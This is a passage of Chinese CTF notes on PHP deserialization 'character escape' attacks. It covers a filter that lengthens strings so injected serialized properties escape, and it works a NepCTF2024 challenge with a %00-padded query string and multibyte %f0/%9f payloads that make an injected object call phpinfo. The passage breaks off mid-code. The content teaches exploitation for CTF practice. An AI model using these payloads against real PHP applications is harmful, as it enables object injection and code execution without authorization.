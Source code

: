 payload构造：

```PHP
?get1=(增加字符数量, 任意值)&read=(n个%9f)(序列化字符串)
```

**增长字符逃逸**

```PHP
function filter($str){
    return str_replace('bb', 'ccc', $str); // n个bb将会多n个字符
}

class A{
    public $name='aaaabb';
    public $pass='123456';
}

$AA=new A();
echo serialize($AA)."\n"; 
// O:1:"A":2:{s:4:"name";s:6:"aaaabb";s:4:"pass";s:6:"123456";} 
echo filter(serialize($AA));
// O:1:"A":2:{s:4:"name";s:6:"aaaaccc";s:4:"pass";s:6:"123456";}
// s 多一个字符, 但只能解析6个, 逃逸了一个c
```

通过逃逸修改pass，payload为25个字符，即前加入25个'bb'，每个逃逸一个字符

```PHP
$name='bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";s:4:"pass";s:4:"hack";}'
//$name: ccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccc
//$pass: hack       
```

**例题——NepCTF2024【PHP_MASTER!!】**

打入`payload`：URL( 47个%00, 即47个'\0' 增长型字符逃逸)

```PHP
?c=%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00";s:3:"str";O:1:"B":1:{s:1:"b";s:7:"phpinfo";}}&nep1=%f0123%f0123%f0123%9f%9f%f0123&nep=Nep
// ";s:3:"str";O:1:"B":1:{s:1:"b";s:7:"phpinfo";}} 长度为47 增长逃逸47字符
<?php
function substrstr($data){
    $start = mb_strpos($data, "[");
    $end = mb_strpos($data, "]");
    return mb_substr($data, $start + 1, $end - 1 - $start); // 变式
}

class B
{
    public $b;
    public function __tostring(){
        if (preg_match("/\[|\]/i", $_GET['nep'])) {
            die("NONONO!!!");
        }
        $str = substrstr($_GET['nep1'] . "[welcome to" . $_GET['nep'] . "CTF]");
        // 原: %f0123%f0123%f0123%9f%9f%f0123[Welcome toNepCTF]
        // 后: str = NepCTF] 效果:右移3*3个,左移2次,右移3个
        if ($str === 'NepCTF]') {
            return ($this->b)(); // b为phpinfo, 可以执行phpinfo;
        }
    }
}
class C
{
    public $s;
    public $str;
```